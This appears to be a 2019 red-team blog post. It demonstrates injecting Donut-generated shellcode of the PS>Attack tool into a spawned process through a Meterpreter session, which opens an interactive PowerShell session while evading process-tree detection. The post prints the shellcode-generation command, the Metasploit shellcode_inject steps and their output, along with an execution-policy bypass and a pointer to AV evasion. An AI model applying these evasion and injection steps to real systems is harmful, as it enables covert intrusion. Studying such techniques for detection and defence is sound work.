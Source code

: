 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter Edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[![asciicast](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr.svg)](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/
- https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/
- https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/
- https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/
- https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : :NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀

![demo](../assets/images/shellcode_psattack.jpg "Demo")

[back](../)
